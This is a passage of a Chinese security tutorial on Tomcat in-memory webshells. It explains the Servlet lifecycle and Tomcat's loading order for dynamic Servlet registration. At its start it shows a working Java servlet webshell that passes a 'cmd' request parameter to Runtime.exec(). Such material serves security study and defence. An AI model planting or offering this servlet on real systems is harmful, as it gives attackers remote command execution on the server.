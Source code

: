 ```java
    }

    @Override
    public ServletConfig getServletConfig() {
        return null;
    }

    @Override
    public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
        String cmd = req.getParameter("cmd");
        if (cmd !=null){
            try{
                Runtime.getRuntime().exec(cmd);
            }catch (IOException e){
                e.printStackTrace();
            }catch (NullPointerException n){
                n.printStackTrace();
            }
        }
    }

    @Override
    public String getServletInfo() {
        return null;
    }

    @Override
    public void destroy() {

    }
}
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/25404035/1712726438093-1869cc3e-18ad-415a-ab2e-da2598477b21.png#averageHue=%23bcd2ba&clientId=ufba5f51f-869c-4&from=paste&height=477&id=uc4565e28&originHeight=954&originWidth=1322&originalType=binary&ratio=2&rotation=0&showTitle=false&size=305004&status=done&style=none&taskId=u956c8df1-c3cb-49ed-ba49-2bae7a7b0c3&title=&width=661)
下面就是实现动态注册`Servlet`了。
### 4.3.1、Servlet创建流程
我们知道`Servlet`的生命周期分为如下五部分

1. 加载：当`Tomcat`第一次访问`Servlet`的时候，`Tomcat`会负责创建`Servlet`的实例
2. 初始化：当`Servlet`被实例化后，`Tomcat`会调用`init()`方法初始化这个对象
3. 处理服务：当浏览器访问`Servlet`的时候，`Servlet` 会调用`service()`方法处理请求
4. 销毁：当`Tomcat`关闭时或者检测到`Servlet`要从`Tomcat`删除的时候会自动调用`destroy()`方法，让该实例释放掉所占的资源。一个`Servlet`如果长时间不被使用的话，也会被`Tomcat`自动销毁
5. 卸载：当`Servlet`调用完`destroy()`方法后，等待垃圾回收。如果有需要再次使用这个`Servlet`，会重新调用`init()`方法进行初始化操作

[前面](https://www.yuque.com/exmmmys/wnuua5/navlga3lr8rqlnaa)我们已经分析过，在`org.apache.catalina.core.StandardContext`类的`startInternal()`方法中，我们能看到`Listener->Filter->Servlet`的加载顺序
```java
...
 
if (ok) {
                if (!listenerStart()) {
                    log.error(sm.getString("standardContext.listenerFail"));
                    ok = false;
                }
            }
 
 
            try {
                // Start manager
                Manager manager = getManager();
                if (manager instanceof Lifecycle) {
                    ((Lifecycle) manager).start();
```